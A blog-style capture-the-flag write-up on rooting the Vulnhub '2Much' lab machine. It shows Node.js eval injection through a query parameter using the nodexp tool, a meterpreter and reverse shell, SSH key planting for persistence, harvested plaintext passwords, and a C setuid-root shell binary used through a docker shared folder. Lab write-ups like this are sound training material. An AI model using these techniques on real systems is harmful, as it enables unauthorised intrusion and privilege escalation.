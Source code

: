 ```yaml
---
layout: post
title: Vulnhub - 2Much writeup
date: 2019-02-01 8:00 PM
---
```


## Nmap

![](images/2much/nmap.png)

So there seems to be lot of services running. We'll start with port `80`.

***

## HTTP - port 80

![](images/2much/website.png)

There seems to be having lot of other vulnerable machines in it. so now we know that most of those `http` services are just some other vulnerable machine/application but that won't give us access to the main machine.

So I started to look at the port `8081`. When we try to visit that we get `hello undefined`.

![](images/2much/8081.png)

I spent sometime looking around the website but didn't found anything at all so I decided to fuzz using `ffuf`


```
http://192.168.1.121:8081/?name=ls
```

This gives a node error.

```bash
ReferenceError: sadas is not defined
    at eval (eval at <anonymous> (/home/4ndr34z/n-rce/app.js:5:23), <anonymous>:1:1)
    at /home/4ndr34z/n-rce/app.js:5:23
    at Layer.handle [as handle_request] (/home/4ndr34z/n-rce/node_modules/express/lib/router/layer.js:95:5)
    at next (/home/4ndr34z/n-rce/node_modules/express/lib/router/route.js:137:13)
    at Route.dispatch (/home/4ndr34z/n-rce/node_modules/express/lib/router/route.js:112:3)
    at Layer.handle [as handle_request] (/home/4ndr34z/n-rce/node_modules/express/lib/router/layer.js:95:5)
    at /home/4ndr34z/n-rce/node_modules/express/lib/router/index.js:281:22
    at Function.process_params (/home/4ndr34z/n-rce/node_modules/express/lib/router/index.js:335:12)
    at next (/home/4ndr34z/n-rce/node_modules/express/lib/router/index.js:275:10)
    at expressInit (/home/4ndr34z/n-rce/node_modules/express/lib/middleware/init.js:40:5)
```

But if we enter anything in qoutes it display that name. so if we do `?name='mzfr'` it will display `Hello mzfr`

![](images/2much/inc-mzfr.png)


After searching for a while I found a [exploit for Node.js](https://kalilinuxtutorials.com/nodexp/).

I ran the exploit as

```bash
python2.7 nodexp.py --url="http://192.168.0.111:8081/?name=[INJECT_HERE]"
```

And then got a meterpreter shell and from there I got myself another reverse shell.

![](images/2much/meter.png)

![](images/2much/rev.png)

and in the `4ndr34z` home directory I found the `user.txt` file.

![](images/2much/user.png)

***

## Privilege Escalation

First I added my `public key` file in `/home/4ndr34z/.ssh` folder under `authorized_keys` file and then got a stable SSH connection.

![](images/2much/ssh.png)

In that same directory I found a folder named `.mystuff` which had a file name `.cred` having password for `admin`.

![](images/2much/admin-cred.png)

`admin:hakkeBakkeSkogen#12`

I spent sometime trying to find something but nothing worked. Then I noticed that `.bash_history` aren't linked to `/dev/null` so I read those and found something interesting in `4ndr34z` `.bash_history`

![](images/2much/history.png)

`root:3236$fsdfzcv_cs`

![](images/2much/ssh-docker.png)

But now we are inside a `docker` and also I noticed a file named `tdl.txt`, the same file was in `/home/4ndr34z/ftp/` this could mean that it's sharing a folder with the machine. We can exploit this by SSH as root on the docker and leave an `SUID` in that folder and then come back on the machine and run that SUID to get the root shell.

```c
int main(void) {
       setgid(0); setuid(0);
       execl("/bin/sh","sh",0);
}
```
I compiled a binary having this C code. And then transfered that compiled binary using `wget` and then did `chmod 4755 root` to make it an SUID. All this has to be done from within the `docker` i.e after doing `ssh root@127.0.0.1 -p23`

__NOTE__: Even though `wget` is not installed we can just install it using `apt install wget` since we are `root` on the docker.

![](images/2much/root-shell.png)

![](images/2much/root.png)

***

Thanks for reading, Feedback is always appreciated.

Follow me [@0xmzfr](https://twitter.com/0xmzfr) for more “Writeups”. And if you'd like to support me considering [donating](https://mzfr.github.io/donate/) 😄
